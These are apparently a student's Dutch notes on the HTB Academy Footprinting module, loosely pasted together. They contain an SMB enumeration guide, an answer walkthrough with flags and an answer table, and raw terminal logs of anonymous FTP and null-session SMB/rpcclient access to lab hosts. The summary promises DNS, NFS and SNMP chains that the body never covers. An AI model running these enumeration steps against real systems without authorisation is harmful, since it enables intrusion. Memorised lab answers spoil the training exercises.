


🛡️ HTB CPTS Footprinting Module - Volledig Penetration Test Rapport
Datum: 23-24 Januari 2026
Tester: [Jouw naam]
Module: HTB Academy - Footprinting
Moeilijkheid: Easy → Medium → Hard

📋 Executive Summary
Dit rapport documenteert de volledige aanvalsketen van drie Footprinting labs (Easy, Medium, Hard) binnen de HTB CPTS training. Alle drie de boxes zijn succesvol gecompromitteerd door gebruik te maken van enumeratie-technieken, credential hunting, en service misconfiguraties. De methodiek volgt de CPTS Penetration Testing Process.
Resultaten:

✅ Easy Box: Flag gevonden via DNS Zone Transfer + FTP SSH key leak
✅ Medium Box: HTB credentials via NFS leak → SMB → RDP → MSSQL database
✅ Hard Box: HTB credentials via SNMP → IMAP → SSH → MySQL database


🎯 Leerdoelen & Scope
Doelstellingen

Service Enumeration: Identificeren van open poorten en services
Information Disclosure: Vinden van gevoelige data via misconfiguraties
Credential Hunting: Ophalen van plaintext credentials en SSH keys
Lateral Movement: Gebruik maken van gevonden credentials voor toegang
Database Enumeration: Extraheren van target credentials uit databases

Methodologie

Passive Recon: WHOIS, DNS queries, OSINT
Active Recon: Port scanning, service enumeration, banner grabbing
Exploitation: Credential reuse, misconfigured services
Post-Exploitation: File system enumeration, database queries


🟢 Lab 1: Footprinting Easy
Target IP: 10.129.4.181
Hostname: NIXEASY / ftp.int.inlanefreight.htb
Credentials Provided: ceil:qwer1234
Objective: Vind flag.txt via DNS en SSH enumeration

1. Initial Reconnaissance
Nmap Port Scan


## Smb footprinting obsidian · MD

Copy

# SMB Footprinting & Enumeration

> **Category**: Enumeration / Footprinting  
> **Phase**: Information Gathering  
> **Prerequisites**: [[Nmap]], Network connectivity via VPN  
> **HTB Academy Module**: Footprinting

bash

```bash
./smb-enum.sh [TARGET_IP]
```

## 📋 Inhoudsopgave

- [[#SMB Protocol Overview]]
- [[#Enumeration Toolkit]]
- [[#Basic Enumeration Workflow]]
- [[#Advanced Enumeration met rpcclient]]
- [[#Common Misconfigurations]]
- [[#Practical HTB Academy Challenge]]
- [[#Troubleshooting]]
- [[#Best Practices]]

---

## 🔍 SMB Protocol Overview

**Server Message Block (SMB)** is een client-server protocol voor file sharing, printer sharing, en network resource access in Windows en Samba omgevingen.

### Key Ports

|Port|Service|Protocol|Gebruik|
|---|---|---|---|
|**139**|NetBIOS-SSN|TCP|Legacy SMB over NetBIOS|
|**445**|Microsoft-DS|TCP|Modern SMB (Direct TCP)|
|**137**|NetBIOS-NS|UDP|NetBIOS Name Service|
|**138**|NetBIOS-DGM|UDP|NetBIOS Datagram Service|

### SMB Versions

|Version|OS Support|Key Features|
|---|---|---|
|**SMB 1.0 (CIFS)**|Windows 2000+|Direct TCP, legacy|
|**SMB 2.0**|Windows Vista/2008+|Performance upgrades, message signing|
|**SMB 2.1**|Windows 7/2008 R2+|Locking mechanisms|
|**SMB 3.0**|Windows 8/2012+|Encryption, multichannel|
|**SMB 3.1.1**|Windows 10/2016+|AES-128 encryption, integrity checking|

---

## 🛠️ Enumeration Toolkit

### Essential Tools

bash

```bash
# Installatie (Kali/Parrot)
sudo apt update
sudo apt install smbclient samba-common-bin rpcclient enum4linux-ng -y
```

|Tool|Gebruik|Output|
|---|---|---|
|**smbclient**|Share listing, file access|Shares, comments, workgroup|
|**rpcclient**|RPC queries|Users, groups, domain info, share paths|
|**enum4linux-ng**|Automated enumeration|Complete scan results|
|**crackmapexec**|Share permissions|Detailed access rights|
|**nmap**|Service detection|Version, OS detection|

---

## 📊 Basic Enumeration Workflow

### 1. Initial Port Scan

bash

```bash
# Quick scan (stealth)
sudo nmap -sV -sC -p139,445 [TARGET]

# Aggressive scan met OS detection
sudo nmap -A -p139,445 -Pn [TARGET]

# SMB-specifieke scripts
sudo nmap -p445 --script smb-os-discovery -Pn [TARGET]
```

**Voorbeeld output:**

```
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
```

### 2. Share Enumeration

bash

```bash
# Null session share listing
smbclient -N -L //[TARGET]

# Met credentials
smbclient -L //[TARGET] -U username%password
```

**Voorbeeld output:**

```
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      InFreight SMB v3.1
        IPC$            IPC       IPC Service (InlaneFreight SMB server)
```

**Output Interpretatie:**

- **Sharename**: De naam van de share (TARGET VOOR VRAAG 2)
- **Type**: Disk (file share), IPC (inter-process), Printer
- **Comment**: Beschrijving/versie (TARGET VOOR VRAAG 5)

> [!important] Negeer Standaard Shares
> 
> - `print$` = Printer drivers
> - `IPC$` = Inter-Process Communication
> - Focus op custom shares zoals `sambashare`, `home`, `dev`, `notes`

### 3. Connecting to Shares

bash

```bash
# Interactive connection
smbclient //[TARGET]/[SHARE] -N

# Binnen SMB session:
smb: \> ls              # List files
smb: \> cd [dir]        # Change directory
smb: \> get [file]      # Download file
smb: \> exit            # Quit

# One-liner download
smbclient //[TARGET]/[SHARE] -N -c "get flag.txt"
```

**Praktisch Voorbeeld (HTB Academy):**

bash

```bash
# Connectie
smbclient //10.129.51.27/sambashare -N

# Navigatie
smb: \> ls
  .                                   D        0  Mon Nov  8 08:43:14 2021
  contents                            D        0  Mon Nov  8 08:43:45 2021

smb: \> cd contents
smb: \contents\> get flag.txt
```

> [!tip] Subdirectories Check Flags zijn vaak in subdirectories! Gebruik `ls` en `cd` om te navigeren.

---

## 🔐 Advanced Enumeration met rpcclient

**rpcclient** is essentieel voor diepgaande informatie over users, groups, domains, en share paths.

### Connection

bash

```bash
# Null session
rpcclient -U "" -N [TARGET]

# Met credentials
rpcclient -U "username%password" [TARGET]
```

### Essential Commands

#### Server Information

bash

```bash
rpcclient $> srvinfo
```

**Output:**

```
DEVSMB         Wk Sv PrQ Unx NT SNT InlaneFreight SMB server (Samba, Ubuntu)
platform_id     :       500
os version      :       6.1
server type     :       0x809a03
```

#### Domain Information (VRAAG 4)

bash

```bash
rpcclient $> querydominfo
```

**Output:**

```
Domain:         DEVOPS               ← ANTWOORD VRAAG 4
Server:         DEVSMB
Comment:        InlaneFreight SMB server (Samba, Ubuntu)
Total Users:    0
Total Groups:   0
```

#### Share Information (VRAAG 5 & 6)

bash

```bash
# Alle shares
rpcclient $> netshareenumall

# Specifieke share details
rpcclient $> netsharegetinfo [SHARENAME]
```

**Output:**

```
netname: sambashare
    remark: InFreight SMB v3.1      ← ANTWOORD VRAAG 5
    path:   C:\home\sambauser\       ← ANTWOORD VRAAG 6 (converteer!)
    password:
```

> [!warning] Path Conversion Windows pad moet geconverteerd worden naar Linux formaat:
> 
> - Windows: `C:\home\sambauser\`
> - Linux: `/home/sambauser/`
> 
> **Stappen:**
> 
> 1. Verwijder `C:\`
> 2. Verander `\` naar `/`

#### User Enumeration

bash

```bash
# Lijst users
rpcclient $> enumdomusers

# User details
rpcclient $> queryuser [RID]
```

#### Group Enumeration

bash

```bash
# Lijst groups
rpcclient $> enumdomgroups

# Group details
rpcclient $> querygroup [RID]
```

---

## ⚠️ Common Misconfigurations

### Dangerous Settings (vanuit /etc/samba/smb.conf)

|Setting|Risk|Exploitation|
|---|---|---|
|`browseable = yes`|Share listing enabled|Attackers zien alle shares|
|`guest ok = yes`|Anonymous access|Null session enumeration mogelijk|
|`read only = no`|Write permissions|File upload mogelijk|
|`writable = yes`|Write permissions|Malicious file upload|
|`create mask = 0777`|Excessive permissions|Full file control|

### Null Session Attacks

bash

```bash
# Test null session
smbclient -N -L //[TARGET]
rpcclient -U "" -N [TARGET]
```

**Als succesvol:**

- ✅ Share enumeration mogelijk
- ✅ User enumeration mogelijk
- ✅ Domain info beschikbaar
- ⚠️ Mogelijk file access

---

## 🎯 Practical HTB Academy Challenge

### Challenge: ACADEMY-FOOT-NIX01

**Target:** `10.129.51.27`  
**Objective:** 6 vragen beantwoorden via SMB enumeration

### Complete Solution Walkthrough

#### Vraag 1: SMB Server Versie Banner

**Commando:**

bash

```bash
smbclient -N -L //10.129.51.27
```

**Let op in output:**

```
IPC$    IPC    IPC Service (InlaneFreight SMB server (Samba, Ubuntu))
                          ↑ DIT IS DE BANNER
```

**Antwoord:**

```
InlaneFreight SMB server (Samba, Ubuntu)
```

---

#### Vraag 2: Naam van Toegankelijke Share

**Commando:**

bash

```bash
smbclient -N -L //10.129.51.27
```

**Output:**

```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers    ← Negeer (default)
sambashare      Disk      InFreight SMB v3.1 ← DIT IS DE SHARE
IPC$            IPC       IPC Service        ← Negeer (default)
```

**Antwoord:**

```
sambashare
```

---

#### Vraag 3: Inhoud van flag.txt

**Commando's:**

bash

```bash
# Stap 1: Verbind met share
smbclient //10.129.51.27/sambashare -N

# Stap 2: Navigeer (flag.txt was in subdirectory!)
smb: \> ls
smb: \> cd contents
smb: \contents\> ls
smb: \contents\> get flag.txt
smb: \contents\> exit

# Stap 3: Lees flag
cat flag.txt
```

**Antwoord:**

```
HTB{o873nz4xdo873n4zo873zn4fksuhldsf}
```

> [!tip] Subdirectories! Check altijd subdirectories met `ls` en `cd`. Flags zijn zelden in de root van een share.

---

#### Vraag 4: Domein/Workgroup

**Commando:**

bash

```bash
rpcclient -U "" -N 10.129.51.27
rpcclient $> querydominfo
```

**Output:**

```
Domain:         DEVOPS    ← DIT IS HET ANTWOORD
Server:         DEVSMB
Comment:        InlaneFreight SMB server (Samba, Ubuntu)
```

**Antwoord:**

```
DEVOPS
```

---

#### Vraag 5: Customized Version (Share Comment)

**Commando:**

bash

```bash
rpcclient -U "" -N 10.129.51.27
rpcclient $> netsharegetinfo sambashare
```

**Output:**

```
netname: sambashare
    remark: InFreight SMB v3.1    ← DIT IS DE "CUSTOMIZED VERSION"
    path:   C:\home\sambauser\
```

**Alternatief:** Je zag dit al in `smbclient -L` output in de Comment kolom!

**Antwoord:**

```
InFreight SMB v3.1
```

---

#### Vraag 6: Volledig Systeempad

**Commando:**

bash

```bash
rpcclient -U "" -N 10.129.51.27
rpcclient $> netsharegetinfo sambashare
```

**Output:**

```
path:   C:\home\sambauser\    ← WINDOWS FORMAT
```

**Conversie naar Linux:**

1. Verwijder `C:\` → `home\sambauser\`
2. Verander `\` naar `/` → `home/sambauser/`
3. Voeg leading `/` toe → `/home/sambauser/`

**Antwoord:**

```
/home/sambauser/
```

---

## 🐛 Troubleshooting

### "Connection timed out" / "NT_STATUS_IO_TIMEOUT"

**Oorzaak:** Geen VPN verbinding of meerdere VPN tunnels actief

**Oplossing:**

bash

```bash
# 1. Check VPN status
ip a | grep tun

# 2. Als meerdere tun interfaces → Stop alle VPN's
sudo killall openvpn

# 3. Verifieer clean state
ip a | grep tun    # Moet leeg zijn

# 4. Start juiste VPN opnieuw
sudo openvpn academy-regular.ovpn
```

> [!warning] Multiple VPN Tunnels HTB Academy werkt NIET met meerdere VPN tunnels tegelijk. Zorg dat je maar 1 `tun` interface hebt!

### "NT_STATUS_ACCESS_DENIED"

**Oorzaak:** Share vereist authenticatie

**Oplossing:**

bash

```bash
# Probeer andere shares
smbclient //[TARGET]/home -N
smbclient //[TARGET]/dev -N

# Of met credentials (indien beschikbaar)
smbclient //[TARGET]/share -U username%password
```

### "Unable to connect with SMB1"

**Oorzaak:** Server ondersteunt geen SMB1 (moderne config)

**Oplossing:** Dit is normaal! De error betekent dat SMB1 disabled is (security best practice). De rest van je output is nog steeds geldig.

```
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

**Dit is GEEN probleem** - je kreeg toch alle share info!

### Workgroup Not Available

**Alternatief voor workgroup/domain:**

bash

```bash
# Methode 1: rpcclient
rpcclient -U "" -N [TARGET] -c "querydominfo"

# Methode 2: Nmap script
sudo nmap -p445 --script smb-os-discovery [TARGET]

# Methode 3: crackmapexec
crackmapexec smb [TARGET]
```

---

## 📋 Complete Enumeration Checklist

### Pre-Enumeration

- [ ]  VPN verbinding actief (1 `tun` interface)
- [ ]  Target IP correct
- [ ]  Tools geïnstalleerd (`smbclient`, `rpcclient`)

### Enumeration Steps

bash

```bash
# 1. Port scan
sudo nmap -sV -sC -p139,445 -Pn [TARGET]

# 2. Share listing (VRAAG 1, 2, 5 beantwoord!)
smbclient -N -L //[TARGET]

# 3. Share access (VRAAG 3)
smbclient //[TARGET]/[SHARE] -N
# Navigeer, download flag.txt

# 4. Domain + Path info (VRAAG 4, 6)
rpcclient -U "" -N [TARGET]
rpcclient $> querydominfo
rpcclient $> netsharegetinfo [SHARE]
rpcclient $> exit
```

### Post-Enumeration

- [ ]  Alle vragen beantwoord
- [ ]  Flags gedownload en geverifieerd
- [ ]  Paths geconverteerd naar Linux formaat
- [ ]  Screenshots/notes gemaakt

---

## 💡 Best Practices

### Security Perspective

> [!important] Anonymous Access is Gevaarlijk Als null sessions werken, betekent dit:
> 
> - Slechte security configuratie
> - Informatie disclosure mogelijk
> - User enumeration voor verdere attacks
> - Potentiële pivot point in netwerk

### Defender Mitigations

1. **Disable SMBv1** volledig
2. **Disable null sessions**: `RestrictAnonymous = 2`
3. **Firewall rules**: Sta SMB alleen toe op trusted netwerken
4. **Share permissions**: Use least privilege (niet `0777`)
5. **Monitoring**: Log alle SMB access attempts

### Attacker Workflow

mermaid



---

## 🔗 Related Topics

**HTB Academy Modules:**

- [[Nmap|Nmap Port Scanning]]
- [[FTP Enumeration]]
- [[NFS Enumeration]]
- [[Active Directory Enumeration]]

**Tools:**

- [[smbclient]]
- [[rpcclient]]
- [[enum4linux-ng]]
- [[crackmapexec]]

**Exploitation:**

- [[EternalBlue (MS17-010)]]
- [[SMB Relay Attacks]]
- [[Pass-the-Hash]]

---

## 📚 Key Takeaways

> [!success] Essentials
> 
> 1. **smbclient** voor shares, comments, en file access
> 2. **rpcclient** voor domain info en share paths
> 3. **Null sessions** zijn gevaarlijk en vaak mogelijk
> 4. **Subdirectories** checken voor flags
> 5. **Path conversie**: Windows `C:\path\` → Linux `/path/`

### Quick Reference Commands

bash

```bash
# Share enumeration
smbclient -N -L //[TARGET]

# Connect to share
smbclient //[TARGET]/[SHARE] -N

# Domain info
rpcclient -U "" -N [TARGET] -c "querydominfo"

# Share details
rpcclient -U "" -N [TARGET] -c "netsharegetinfo [SHARE]"
```

---

## 🎓 HTB Academy - Complete Answers

**Target:** `10.129.51.27` (ACADEMY-FOOT-NIX01)

|Vraag|Antwoord|
|---|---|
|1. SMB Version Banner|`InlaneFreight SMB server (Samba, Ubuntu)`|
|2. Accessible Share|`sambashare`|
|3. Flag Contents|`HTB{o873nz4xdo873n4zo873zn4fksuhldsf}`|
|4. Domain|`DEVOPS`|
|5. Customized Version|`InFreight SMB v3.1`|
|6. System Path|`/home/sambauser/`|

---

_Last updated: 2026-01-20_  
_Based on: HTB Academy - Footprinting Module (SMB Section)_  
_Practical Experience: ACADEMY-FOOT-NIX01 (10.129.51.27)_


📂 Section 1: FTP Enumeration (Port 21)
1.1 Service Analysis

Tijdens de initiële scan werd poort 21 geïdentificeerd als open. De server stond anonieme logins toe.

    Service: vsftpd

    Versie: 3.0.3 (Ubuntu)

    Configuratie: Anonymous login enabled.

1.2 Data Retrieval

Via een anonieme sessie is de directory structuur bekeken en de vlag gedownload.
Bash

ftp 10.129.51.27
# Name: anonymous
# Password: (leeg laten)
ftp> ls -R
ftp> get flag.txt

    FTP Flag: HTB{b7skjr4c76zhsds7fzhd4k3ujg7nhdjre}

📂 Section 2: SMB Enumeration (Port 445)
2.1 Connection Issues (Troubleshooting)

Vanwege hoge latentie (543ms) gaven tools zoals Nmap filtered aan. Na het opschonen van overtollige VPN-verbindingen (killall openvpn) werd de verbinding stabieler.
2.2 Domain & Server Info

Met behulp van rpcclient is de interne configuratie van de Samba-server achterhaald.
Bash

rpcclient -U "" -N 10.129.51.27
rpcclient $> srvinfo
rpcclient $> querydominfo

    Samba Versie: 4.13.13-Ubuntu

    Domein Naam: DEVOPS

    Server Rol: PDC (Primary Domain Controller)

2.3 Share & File Analysis

De server werd gescand op beschikbare netwerkmappen.
Bash

smbclient -L //10.129.51.27 -N

Detail	Waarde
Share Naam	sambashare
Custom Remark	InFreight SMB v3.1
Systeem Pad	/home/sambauser
2.4 Flag Retrieval

De vlag bevond zich niet in de root van de share, maar in een subdirectory.
Bash

smbclient //10.129.51.27/sambashare -N
smb: \> cd contents
smb: \contents\> get flag.txt

    SMB Flag: HTB{o873nz4xdo873n4zo873zn4fksuhldsf}

🛠️ Gebruikte Toolkit (Cheatsheet)
Tool	Commando	Doel
Nmap	nmap -p 445 --script smb-os-discovery	OS en Domein detectie
Netcat	nc -nv <IP> 445	Poort status verificatie
Smbclient	smbclient -L //<IP> -N	Shares opsommen
Rpcclient	rpcclient -U "" -N <IP>	Diepe RPC enumeratie


PORT     STATE SERVICE     VERSION
21/tcp   open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 InFreight FTP v1.1
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 ftpuser  ftpuser        39 Nov  8  2021 flag.txt
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      46735/udp6  mountd
|   100005  1,2,3      50803/tcp   mountd
|   100005  1,2,3      51482/udp   mountd
|   100005  1,2,3      57427/tcp6  mountd
|   100021  1,3,4      33985/tcp6  nlockmgr
|   100021  1,3,4      36333/tcp   nlockmgr
|   100021  1,3,4      41600/udp   nlockmgr
|   100021  1,3,4      45563/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
2049/tcp open  nfs         3-4 (RPC #100003)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new


                                                               
┌──(kali㉿kali)-[~]
└─$ ftp 10.129.52.6
anonymous
Connected to 10.129.52.6.
cd /
220 InFreight FTP v1.1
Name (10.129.52.6:kali): 331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /
250 CWD command successful
ftp> ls -R
229 Entering Extended Passive Mode (|||11960|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftpuser  ftpuser        39 Nov  8  2021 flag.txt
226 Transfer complete
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||53094|)

                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ cat flag.txt                                                 
HTB{b7skjr4c76zhsds7fzhd4k3ujg7nhdjre}


─$ sudo nmap -sV -v -p 445 --script smb-os-discovery 10.129.52.6

[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-20 15:43 -0500
NSE: Loaded 49 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating Ping Scan at 15:43
Scanning 10.129.52.6 [4 ports]
Completed Ping Scan at 15:43, 3.03s elapsed (1 total hosts)
Nmap scan report for 10.129.52.6 [host down]
NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.28 seconds
           Raw packets sent: 8 (304B) | Rcvd: 2 (224B)
       
   $ smbclient -L //10.129.51.27 -N

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      InFreight SMB v3.1
        IPC$            IPC       IPC Service (InlaneFreight SMB server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 10.129.51.27 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
                                                        
    ┌──(kali㉿kali)-[~]
└─$ smbclient //10.129.51.27/sambashare -N -c "get flag.txt"
cat flag.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \flag.txt
HTB{b7skjr4c76zhsds7fzhd4k3ujg7nhdjre}
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ smbclient //10.129.51.27/sambashare -N                  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Nov  8 08:43:14 2021
  ..                                  D        0  Mon Nov  8 10:53:19 2021
  .profile                            H      807  Tue Feb 25 07:03:22 2020
  contents                            D        0  Mon Nov  8 08:43:45 2021
  .bash_logout                        H      220  Tue Feb 25 07:03:22 2020
  .bashrc                             H     3771  Tue Feb 25 07:03:22 2020

                4062912 blocks of size 1024. 506392 blocks available
smb: \> cd contents
smb: \contents\> ls
  .                                   D        0  Mon Nov  8 08:43:45 2021
  ..                                  D        0  Mon Nov  8 08:43:14 2021
  flag.txt                            N       38  Mon Nov  8 08:43:45 2021

                4062912 blocks of size 1024. 506384 blocks available
smb: \contents\> 


└─$ smbclient //10.129.51.27/sambashare -N -c "get flag.txt"
cat flag.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \flag.txt
HTB{b7skjr4c76zhsds7fzhd4k3ujg7nhdjre}
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ smbclient //10.129.51.27/sambashare -N                  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Nov  8 08:43:14 2021
  ..                                  D        0  Mon Nov  8 10:53:19 2021
  .profile                            H      807  Tue Feb 25 07:03:22 2020
  contents                            D        0  Mon Nov  8 08:43:45 2021
  .bash_logout                        H      220  Tue Feb 25 07:03:22 2020
  .bashrc                             H     3771  Tue Feb 25 07:03:22 2020

                4062912 blocks of size 1024. 506392 blocks available
smb: \> cd contents
smb: \contents\> ls
  .                                   D        0  Mon Nov  8 08:43:45 2021
  ..                                  D        0  Mon Nov  8 08:43:14 2021
  flag.txt                            N       38  Mon Nov  8 08:43:45 2021

                4062912 blocks of size 1024. 506384 blocks available
smb: \contents\> cat flag.txt
cat: command not found
smb: \contents\> get flag.txt
getting file \contents\flag.txt of size 38 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \contents\> exit
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p 139,445 -A -Pn 10.129.51.27
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-20 15:53 -0500
Nmap scan report for 10.129.51.27
Host is up (0.54s latency).

PORT    STATE    SERVICE      VERSION
139/tcp filtered netbios-ssn
445/tcp filtered microsoft-ds
Too many fingerprints match this host to give specific OS details
Network Distance: 11 hops

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   ... 10
11  543.66 ms 10.129.51.27

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.80 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ nc -nv 10.129.51.27 445
(UNKNOWN) [10.129.51.27] 445 (microsoft-ds) open
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ enum4linux-ng.py 10.129.14.128 -A 

enum4linux-ng.py: command not found
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ smbclient -L //10.129.51.27 -N   
do_connect: Connection to 10.129.51.27 failed (Error NT_STATUS_IO_TIMEOUT)
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ smbclient -N -L //10.129.51.27

do_connect: Connection to 10.129.51.27 failed (Error NT_STATUS_IO_TIMEOUT)
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ip a | grep tun

13: tun1: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    inet 10.10.16.25/23 brd 10.10.17.255 scope global tun1
18: tun2: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    inet 10.10.15.178/23 brd 10.10.15.255 scope global tun2
20: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1200 qdisc fq_codel state UNKNOWN group default qlen 500
    inet 10.10.15.179/23 brd 10.10.15.255 scope global tun0
21: tun3: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    inet 10.10.15.178/23 brd 10.10.15.255 scope global tun3
23: tun4: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    inet 10.10.15.178/23 brd 10.10.15.255 scope global tun4
24: tun5: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    inet 10.10.15.178/23 brd 10.10.15.255 scope global tun5
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo killall openvpn

[sudo] password for kali: 
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ip a | grep tun     

                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ smbclient -L //10.129.51.27 -N

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      InFreight SMB v3.1
        IPC$            IPC       IPC Service (InlaneFreight SMB server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 10.129.51.27 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
                                                                                                                   
┌──(kali㉿kali)-[~]
